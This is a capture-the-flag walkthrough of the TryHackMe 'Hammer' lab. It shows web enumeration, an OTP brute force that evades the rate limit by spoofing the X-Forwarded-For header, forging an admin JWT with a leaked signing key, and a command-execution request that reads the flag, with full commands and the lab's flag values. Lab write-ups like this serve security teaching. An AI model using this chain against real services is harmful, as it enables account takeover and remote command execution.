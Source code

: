 # Room: Hammer

## General Info
- **Room link:** [Hammer](https://tryhackme.com/room/hammer


## Description

With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?

## Provided Files / Links
- [x] Target Machine IP (10.10.249.72)

## Enumeration / Recon

- Port Enumeration:
` nmap -sV 10.10.249.72 -p- -T5`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

- Directory Enumeration

I enumerate on the port 1337:

`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/javascript           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/javascript/]
/vendor               (Status: 301) [Size: 320] [--> http://10.10.249.72:1337/vendor/]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]
```


`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt`

```
/index.php            (Status: 200) [Size: 1326]
/config.php           (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/.htaccess            (Status: 403) [Size: 279]
/.                    (Status: 200) [Size: 1326]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/dashboard.php        (Status: 302) [Size: 0] [--> logout.php]
/.htpasswd            (Status: 403) [Size: 279]
/.htm                 (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/reset_password.php   (Status: 200) [Size: 1664]
/.htgroup             (Status: 403) [Size: 279]
/wp-forum.phps        (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htuser              (Status: 403) [Size: 279]
/.htc                 (Status: 403) [Size: 279]
/.ht                  (Status: 403) [Size: 279]
```

When visiting the index.php page (login form), I noticed a commentaire in the html:
`<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->`.

I then used ffuf to enumerate the directories with the given pattern.

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.10.249.72:1337/hmr_FUZZ'`

```
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 19ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 19ms]
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 20ms]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 4349ms]
```

None of the directories/files that were enumerated with gobuster gave relevant information.

I then had a look at the /hmr_js, /hmr_css, /hmr_images and /hmr_logs, and found these relevant logs in /hmr_logs:

```
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```

- Notes:
	tester@hammer.thm seems to be a valid email

	hammerthm is a user in the target machine

With the newly found email tester@hammer.thm, I then tried to brute-force the OTP in the http://10.10.249.72:1337/reset_password.php page with Burp Suite but there was a rate limit in place.

Once the request for the OTP is made, there is a counter of 180s that will redirect you to /logout.php if you don't have the right OTP.

Since there is a rate limit on this endpoint, I will be be fuzzing the "X-Forwarded-For" header to get a rate limit bypass.

First, I create a txt file containing all the possible pin numers (between 0000 and 9999):

`seq -w 0000 9999 > pins.txt `

Then I use the following ffuf command to launch the attack (after grabbing the right PHPSESSID cookie):

```
ffuf -w pins.txt -u "http://hammer.thm:1337/reset_password.php" -X “POST” -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=CookieID" -H "X-Forwarded-For: FUZZ" -H “Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s
```

(I use the flag -fr "Invalid" to filter out the responses containing the word "Invalid").

I then get the right OTP password: 8541.

I change the password for the user tester@hammer.thm and I'm now able to log in. I find the first flag: **THM{AuthBypass3D}**.

### Logged in access

Once logged in, I have a look at the dashboard.php request in the network tab of the browser and find a JWT token:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.Rg_nED2D4PW7maxBWCh7BrlDs7nVR6FKicY6BV6nsFk`

Using jwt.io, I find that this jwt token needs a 256 bit secret.

Using the "command" field in the web page, I type `ls` and find that there is a `188ade1.key` file available. I navigate to http://10.10.249.72:1337/188ade1.key to download the resource.

`cat 188ade1.key` => `56058354efb3daa97ebab00fabd7a7d7`

 I change the role of the user in the JWT token ("role": "admin" instead of "role": "user") and I use this key to validate the jwt signature.

 The new JWT token with the admin permission is the following:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
```

The only thing left to do is now to make the POST request /execute_command.php with the JWT token with admin privileges.

I use Burp Suite with the following request:

```
POST /execute_command.php HTTP/1.1
Host: 10.10.249.72:1337
Content-Length: 39
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://10.10.249.72:1337
Referer: http://10.10.249.72:1337/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=1h2f4encdgd906cqvbjtq17ehp; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.md9lPE3rTrqVvsJmK1lB4ixAPCTmQyBuhP-Kd6LlAEI; persistentSession=no
Connection: keep-alive

{"command":"cat /home/ubuntu/flag.txt"}
```

And I get the flag **THM{RUNANYCOMMAND1337}** in the response:

```
{"output":"THM{RUNANYCOMMAND1337}\n"}
```
